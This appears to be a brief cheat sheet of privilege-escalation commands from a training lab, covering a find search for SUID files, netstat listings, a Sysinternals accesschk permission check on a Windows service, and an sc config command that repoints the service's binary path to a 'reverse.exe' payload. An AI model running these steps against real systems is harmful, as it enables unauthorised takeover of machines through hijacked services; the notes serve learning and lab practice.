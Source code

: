 You can find all SUID file by executing this simple find command:

find / -perm -u=s -type f 2>/dev/null

netstat -at | less
netstat -tulpn


windows get permissions of given service via sysinternals

accesschk.exe /accepteula -uwcqv user daclsvc


check service data (user, path, etc)

sc qc daclsvc

change bin path

sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
